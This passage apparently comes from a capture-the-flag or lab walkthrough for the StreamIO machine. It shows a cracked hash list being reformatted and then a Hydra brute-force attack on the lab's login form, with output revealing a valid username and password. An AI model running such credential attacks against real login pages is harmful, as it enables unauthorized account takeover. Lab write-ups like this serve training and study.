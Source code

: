 We could try all manual, but let's automatize:

Let's format it for a bruteforce:

```
cat HASHESV2 | cut -d: -f1,3 > userpass
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
hydra -C userpass streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=failed"
```

Which will output:

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-12 21:54:58
[DATA] max 13 tasks per 1 server, overall 13 tasks, 13 login tries, ~1 try per task
[DATA] attacking http-post-forms://streamio.htb:443/login.php:username=^USER^&password=^PASS^:F=failed
[443][http-post-form] host: streamio.htb   login: yoshihide   password: 66boysandgirls..
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-12 21:55:00
```

We are able to connect and after further enumeration, access the admin page:

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
